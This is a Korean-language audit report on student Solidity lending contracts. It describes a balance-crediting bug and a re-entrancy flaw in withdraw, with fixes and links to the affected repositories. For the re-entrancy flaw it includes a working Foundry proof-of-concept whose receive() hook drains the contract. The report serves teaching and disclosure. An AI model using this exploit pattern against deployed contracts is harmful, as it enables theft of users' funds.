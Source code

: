 ## 1. initializeLendingProtocol 함수 구현 오류

### 설명
[DreamAcademyLending.sol 127-128행](https://github.com/dlanaraa/Lending_solidity/blob/55071b255a24d87517629b1d37672bc4ab580acc/src/DreamAcademyLending.sol#L127-L128)에서 특정 account에 대한 잔고를 보관하는 변수인 _depositETH와 _depositUSDC의 값을 동시에 누적시키고 있어서

실제로는 address(0x0) 의 reserve만 보냈더라도 잔고에는 _depositUSDC까지 올라가는 결과가 발생하여, withdraw함수에서 인출 가능합니다.

### 파급력
심각도는 Critical로써 사용자는 ether 혹은 usdc만 initializeLendingProtocol함수를 통해 실제 예치하지 않은 컨트랙트 내의 다른 토큰을 withdraw 할 수 있게되거나 borrow를 통해 비정상적으로 다른 토큰을 빌려갈 수 있습니다.

### 해결방안
해당 함수가 external 이기때문에 함수 내부에서 require로 컨트랙트의 admin 만 호출 가능하게하고, 그게 아니면 실제 입금한 자산에 대해서만 잔고를 올리도록 해야합니다.

### 해당 취약점 발견된 목록
* [dlanaraa/Lending_solidity](https://github.com/dlanaraa/Lending_solidity/blob/55071b255a24d87517629b1d37672bc4ab580acc/src/DreamAcademyLending.sol#L127-L128)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L44)
* [jun4n/Lending_solidity](https://github.com/jun4n/Lending_solidity/blob/fd3baab9a9c6384e6dfb767c23ce2f81cc1de913/src/DreamAcademyLending.sol#L125)

## 2. withdraw에서 call 사용하여 ether 반환할때 re-entrancy 취약점

### 설명
[DreamAcademyLending.sol 130행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)에서 call을 사용하여 ether를 전송하는데, 대상 account가 CA 인경우에 해당 CA에 구현된 receive에서 여러번 withdraw를 호출하면 Lending contract의 ether잔고를 (특정 account가 입금한 양보다 더 많이)인출 할 수 있다.

```
function testWithdrawAtt() external {
    vm.deal(address(lending), 30 ether); // 비교를 위해 Lending컨트랙트의 잔고를 30으로 맞춰둔다.
    lending.deposit{value: 1 ether}(address(0x0), 1 ether); // 공격 CA는 단 1 ether만 deposit
    vm.deal(address(this), 0 ether);
    console.log("Lending: balance before withdraw: %d", address(lending).balance); // 원래있던 30 ether + 공격자 1 ether deposit 해서 31 ether
    lending.withdraw(address(0x0), 1 ether);
    console.log("Lending: balance after withdraw: %d", address(lending).balance); // 0 ether
    console.log("Attacker: balance after withdraw", address(this).balance); // 31 ether
}

receive() external payable {
    if(address(lending).balance >= 1 ether){
        lending.withdraw(address(0x0), 1 ether);
    }
}
```

### 파급력

심각도는 Critical로써 공격자가 Lending 컨트랙트의 모든 ether 잔고를 할 수 있거나 대출을 repay하지 않고 담보를 인출해 갈 수 있습니다.

### 해결방안
withdraw 함수 구현을 Checks Effects Interaction Pattern으로 변경해야합니다. [133행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L133)을 129행과 130행 사이로 이동시키면 됩니다.

### 해당 취약점 발견된 목록
* [Namryeong-Kim/Lending_solidity](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L280)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L207)
